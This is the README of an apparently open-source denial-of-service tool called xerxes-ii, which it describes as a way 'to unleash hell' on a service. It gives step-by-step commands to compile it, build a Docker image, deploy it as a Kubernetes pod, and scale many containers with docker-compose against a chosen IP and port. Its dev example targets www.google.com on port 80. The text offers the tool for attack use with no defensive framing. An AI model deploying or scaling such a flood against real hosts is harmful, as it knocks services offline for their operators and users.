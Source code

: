 # xerxes-ii
---
XERXES-ii is a DDOS tool powered by `containers`. 

## Usage

To unleash hell on a particular service 
- Clone the repository`$ git clone https://github.com/ahab94/xerxes-II.git`
- Change Directory to the xerxes-II `$ cd xerxes-II`

### Build executable
*Note: gcc dependencies are required*
- Compile and build xerxes-II `$ gcc -o xerxes-II xerxes-II.c`

### Build image
- Build a docker image image`$ sudo docker build . -t xerxes`

### DDOS using Kubernetes
*NOTE: Kubernetes is required to be setup on the host*
- Create `Xerxes` pod `$ kubectl create -f kubernetes/xerxes-ii-pod.yaml`

### DDOS using Docker
*NOTE: Docker and DockerCompose must be installed on the host*
- In docker-compose.yml define the IP and Port you want to do DDOS on for example.
```YAML
version: '2'
services:
  xerxes-ii-some-service-1:
    image: xerxes
    environment:
      - IP=some-service-1-ip-or-hostname
      - PORT=some-service-1-port

  xerxes-ii-some-service-2:
    image: xerxes
    environment:
      - IP=some-service-2-ip-or-hostname
      - PORT=some-service-2-port

  xerxes-ii-some-service-3:
    image: xerxes
    environment:
      - IP=some-service-3-ip-or-hostname
      - PORT=some-service-3-port
```
- Spawn N number of containers for DDOS `$ sudo docker-compose up --scale xerxes-ii-some-service-1=<number-of-nodes-for-DDOS>`

### Spawning container for dev env
- Initiate xerxes-II container `$ sudo docker run -e IP=www.google.com -e PORT=80 -it xerxes`

### Spawning process for dev env
- Spawn the xerxes-II process `$ bash entrypoint-to-hell.sh`
